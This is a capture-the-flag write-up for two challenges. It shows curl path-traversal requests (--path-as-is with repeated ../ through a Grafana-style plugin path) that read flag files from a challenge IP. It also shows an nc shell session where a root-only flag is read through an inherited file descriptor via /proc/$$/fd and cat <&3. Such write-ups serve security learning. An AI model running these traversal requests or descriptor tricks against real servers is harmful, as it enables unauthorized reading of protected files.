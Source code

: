 curl --path-as-is -s "http://13.126.50.182:3000/public/plugins/alertlist/../../../../../../../../tmp/flag.txt"  
curl --path-as-is -s "http://13.126.50.182:3000/public/plugins/alertlist/../../../../../../../../tmp/flag"  
curl --path-as-is -s "http://13.126.50.182:3000/public/plugins/alertlist/../../../../../../../../tmp/.flag"  
curl --path-as-is -s "http://13.126.50.182:3000/public/plugins/alertlist/../../../../../../../../tmp/hidden_flag.txt"  

we can go upto lesser directories also be reducing ../ but if we fall short then it might create a problem so 8 is sufficient because it doesnt't give error if we go more back then the last directory and still do ../ and using --path-as-is so that the exact path that we are giving is only checked, not a modified one.

And i checked one more thing that it was also working with logs instead of alertlist..i didn't check but it might work with all the plugins.

Out of all these the second one worked it was a valid path and there only the flag was stored so i got the flag.
**``PClub{Easy LFI}``**

---
---
## FLAG : 4  13.235.21.137:4657

I din't face much difficulty while finding the flag for this challenge.


First thing that comes to mind after seeing thiss information is try to connect with the mentioned address and port so i did *nc 13.235.21.137 4657* . It opened another shell for me with no TTY, so now we cannot use all the basic commands that we use in our terminal. After that the first thing we generally do to see the contents is *ls -la* there I found 2 interesting things file_chal and file_chal.c , but both of these files were accessible to the root user only.

After some searching on internet I came to know about this ***ls -l /proc/$$/fd/***...and below is the output I got, basically it can allow us to read things that aren't allowed to us a non root user. This is also a good technique. It tells that what files are currently opened by our shell.  
```bash
total 0  
lrwx------ 1 ctf ctf 64 May 24 06:14 0 -> /dev/pts/24  
lrwx------ 1 ctf ctf 64 May 24 06:14 1 -> /dev/pts/24  
lrwx------ 1 ctf ctf 64 May 24 06:14 2 -> /dev/pts/24  
lr-x------ 1 ctf ctf 64 May 24 06:14 3 -> /root/flag  
lr-x------ 1 ctf ctf 64 May 24 06:14 4 -> /root/flag   
```
So this means that this file is open root/flag/ and generally in ctfs we try to check this hidden /root/flag/ file and here it was open also we just had to read it.

After this I did these things to read the content of /root/flag/ but like normal commands weren't working as you can see below, only the last command worked as it reads directly from file descriptor 3 or 4, which is already opened by our shell.  

```bash
cat /proc/$$/fd/4 : Permission denied  
strings /proc/$$/fd/3 : strings: not found  
head /proc/$$/fd/4 : cannot open '/proc/2347/fd/4' for reading: Permission denied    
dd if=/proc/$$/fd/3 bs=1 count=100 : failed to open '/proc/2347/fd/3': Permission denied  
cat <&3 or cat <&4  
```
